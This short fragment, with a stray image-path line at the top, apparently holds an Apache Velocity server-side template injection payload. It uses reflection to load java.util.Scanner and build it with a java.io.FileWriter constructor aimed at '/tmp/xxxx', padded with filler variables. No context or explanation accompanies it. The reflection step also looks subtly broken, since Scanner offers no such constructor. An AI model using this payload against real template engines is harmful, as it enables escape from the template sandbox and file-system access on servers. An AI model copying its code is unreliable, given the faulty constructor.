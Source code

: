 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.FileWriter")))
#set($scan=$constructor.newInstance("/tmp/xxxx"))
$monkey
"bbb"
